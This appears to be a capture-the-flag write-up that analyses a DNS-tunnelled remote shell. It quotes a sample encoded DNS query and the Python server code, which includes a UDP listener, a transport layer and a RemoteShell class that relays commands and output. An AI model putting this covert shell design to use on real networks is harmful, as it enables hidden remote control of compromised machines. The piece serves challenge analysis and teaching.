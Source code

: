 An example query is  ```G4JQAAADAB2WSZB5GEYDAMJIMZYGK5DSPEUSAZ3JMQ6TCMBQGEUGM4DFORZHSK.JAM5ZG65LQOM6TCMBQGEUGM4DFORZHSKIK.eat-sleep-pwn-repeat.de.```.

Those queries are very strange indeed, and the python server must be consulted before deriving more information about the queries.
Upon examination of the server, we see that a remote shell is being launched 

	if __name__ == '__main__':
	    stream = TransportLayer(0x1337)
	    host = sys.argv[1]
	    port = int(sys.argv[2])

	    loop = asyncio.get_event_loop()
	    listen = loop.create_datagram_endpoint(
		    lambda: Server(stream), local_addr=(host, port))
	    transport, protocol = loop.run_until_complete(listen)

	    shell = RemoteShell(stream)
	    try:
		loop.run_until_complete(shell.main_loop())
	    except KeyboardInterrupt:
		pass
	    transport.close()
	    loop.close()

The remote shell class sound interesting:

	class RemoteShell:
	    def __init__(self, stream):
		self.stream = stream
		self.stream.on_data(self.remote_handler)

	    async def main_loop(self):
		reader = asyncio.StreamReader()
		reader_protocol = asyncio.StreamReaderProtocol(reader)
		await asyncio.get_event_loop().connect_read_pipe(lambda: reader_protocol, sys.stdin)

		while True:
		    line = await reader.readline()
		    if not line:
			break
		    self.stream.write(line)

	    def remote_handler(self):
		data = self.stream.read()
		sys.stdout.buffer.write(data)
		sys.stdout.flush()

In particular, the remote_handler, that read from the stream and write to stdout.
Here, that stream is a transport layer object:

	class TransportLayer:
	    def __init__(self, conn_id):
		self.outbuf = b''
		self.seq = 0
		self.inbuf = b''
		self.ack = 0
		self.conn_id = conn_id
		self.read_cb = None
